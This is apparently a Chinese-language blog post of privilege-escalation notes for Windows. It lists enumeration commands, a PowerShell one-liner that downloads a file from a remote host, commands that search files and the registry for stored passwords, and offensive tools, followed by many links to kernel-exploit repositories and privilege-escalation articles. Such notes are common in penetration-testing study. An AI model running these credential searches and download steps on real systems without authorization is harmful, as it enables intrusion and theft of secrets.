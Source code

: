 ```yaml
---
layout: default
title:  "windows提权"
date:   2019-03-03 15:16
categories: post
---
```


Windows常用命令

    命令  描述
    systeminfo  打印系统信息
    whoami  获得当前用户名
    whoami /priv  当前帐户权限
    ipconfig  网络配置信息
    ipconfig /displaydns  显示DNS缓存
    route print  打印出路由表
    arp -a  打印arp表
    hostname  主机名
    net user  列出用户
    net user UserName  关于用户的信息
    net use \SMBPATH Pa$$w0rd /u:UserName  连接SMB
    net localgroup  列出所有组
    net localgroup GROUP  关于指定组的信息
    net view \127.0.0.1  会话打开到当前计算机
    net session  开放给其他机器
    netsh firewall show config  显示防火墙配置
    DRIVERQUERY  列出安装的驱动
    tasklist /svc  列出服务任务
    net start  列出启动的服务
    dir /s foo  在目录中搜索包含指定字符的项目
    dir /s foo == bar  同上
    sc query  列出所有服务
    sc qc ServiceName  找到指定服务的路径
    shutdown /r /t 0  立即重启
    type file.txt  打印出内容
    icacls “C:\Example”  列出权限
    wmic qfe get Caption,Description,HotFixID,InstalledOn  列出已安装的布丁
    (New-Object System.Net.WebClient).DownloadFile(“http://host/file”,”C:\LocalPath”)  利用ps远程下载文件到本地
    accesschk.exe -qwsu “Group”  修改对象（尝试Everyone，Authenticated Users和/或Users）

    参考url：https://ss64.com/nt/
    提权exp推荐

    https://github.com/SecWiki/windows-kernel-exploits
    https://www.exploit-db.com/local/
    https://pentestlab.blog/2017/04/24/windows-kernel-exploits/
    搜索系统上可疑敏感文件

    dir C:\*vnc.ini /s /b /c
    或者在名称中包含关键词的项目：

    dir C:\ /s /b /c | findstr /sr \*password\*
    或者可以在文件内容中搜索password之类的关键字：

    findstr /si password \*.txt | \*.xml | \*.ini
    可以查询注册表，例如，字符串password：

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
    常用工具

    Metasploit
    Sherlock
    windows-privesc-check
    Windows-Exploit-Suggester
    PowerUp, now part of PowerSploit
    Nishang
    推荐阅读：

    Windows权限升级基础
    https://www.fuzzysecurity.com/tutorials/16.html

    Windows权限升级第1部分：本地管理员权限
    https://blog.netspi.com/windows-privilege-escalation-part-1-local-administrator-privileges/

    Pentesters的Windows权限提升方法
    https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

    “嗯，快速升级”常见的Windows权限升级向量
    https://toshellandback.com/2015/11/24/ms-priv-esc/

    自动执行Windows权限提升
    http://resources.infosecinstitute.com/automating-windows-privilege-escalation/

    Windows 8上的Extreme Privilege Escalation
    https://www.blackhat.com/docs/us-14/materials/us-14-Kallenberg-Extreme-Privilege-Escalation-On-Windows8-UEFI-Systems.pdf

    滥用令牌权限进行Windows本地权限提升
    https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/

    Microsoft Windows令牌绑定权限提升漏洞
    https://tools.cisco.com/security/center/viewAlert.x?alertId=15702

    您对GPP了解多少？
    https://www.toshellandback.com/2015/08/30/gpp/

    Windows操作系统中的Privelege升级
    http://www.cs.toronto.edu/~arnold/427/15s/csc427/indepth/privilege-escalation/privilege-escalation-windows.pdf

    滥用EOP的令牌权限
    https://github.com/hatRiot/token-priv

    利用弱文件夹权限提升权限
    http://www.greyhathacker.net/?p=738

    Metasploit Unleashed：特权升级
    https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/

    位操作：将系统令牌作为普通用户窃取
    https://zerosum0x0.blogspot.nl/2016/02/bits-manipulation-stealing-system.html

    不带引号的服务路径
    https://www.commonexploits.com/unquoted-service-paths/

    Windows中的权限提升
    https://codemuch.tech/2017/05/14/priv-esc-win.html

    SysInternals AccessChk工具
    https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk

    AccessChk.exe使用指南
    https://blogs.technet.microsoft.com/secguide/2008/07/21/how-to-use-accesschk-exe-for-security-compliance-management/

    SubInACL.exe下载
    https://www.microsoft.com/en-us/download/details.aspx?id=23510

    当我输入getsystem时会发生什么
    https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/

    动态链接库搜索顺序
    https://msdn.microsoft.com/en-us/library/windows/desktop/ms682586(v=vs.85).aspx

    进程监视器下载
    https://docs.microsoft.com/en-us/sysinternals/downloads/procmon

    动态链接库安全性
    https://msdn.microsoft.com/en-us/library/windows/desktop/ff919712(v=vs.85).aspx

    Windows文件和文件夹权限指南
    https://msdn.microsoft.com/en-us/library/bb727008.aspx

    SECWIKI
    https://github.com/SecWiki

    Acess Tokens
    https://msdn.microsoft.com/en-us/library/windows/desktop/aa374909(v=vs.85).aspx

    访问令牌的工作原理
    https://technet.microsoft.com/en-us/library/cc783557(v=ws.10).aspx

    Windows REG参考
    https://ss64.com/nt/reg.html

    Windows CMD参考
    https://ss64.com/nt/

    如何使用Regedit
    https://www.techsupportalert.com/content/learn-how-use-windows-registry-editor-regedit-one-easy-lesson.htm

    调用-WCMDump
    https://securityonline.info/invoke-wcmdump-dump-windows-credentials-from-the-credential-manager/

    WMIC命令参考
    https://www.computerhope.com/wmic.htm

    PowerShell参考
    https://ss64.com/ps/

    penetration-testing-ninjitsu-with-ed
    http://carnal0wnage.blogspot.com/2008/02/penetration-testing-ninjitsu-with-ed.html

    DLL劫持易受攻击的应用程序
    https://www.exploit-db.com/dll-hijacking-vulnerable-applications/

    Windows/Linux本地特权升级研讨会
    https://github.com/sagishahar/lpeworkshop

    如何使用组策略劫持攻击拥有任何Windows网络
    https://labs.mwrinfosecurity.com/blog/how-to-own-any-windows-network-with-group-policy-hijacking-attacks/

    真实世界中的Pentesting：组策略Pwnage
    https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/

    Windows内核漏洞利用
    https://pentestlab.blog/2017/04/24/windows-kernel-exploits/